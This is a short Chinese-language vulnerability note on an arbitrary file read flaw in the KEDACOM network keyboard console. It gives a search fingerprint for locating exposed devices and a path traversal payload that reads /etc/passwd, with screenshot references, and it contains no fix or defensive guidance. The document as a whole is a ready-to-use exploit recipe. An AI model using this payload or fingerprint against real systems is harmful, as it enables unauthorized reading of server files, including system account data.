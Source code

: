 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## 网络测绘

```
"网络键盘控制台"
```

## 漏洞复现

登录页面

![image-20220525145610413](images/202205251456491.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](images/202205251456381.png)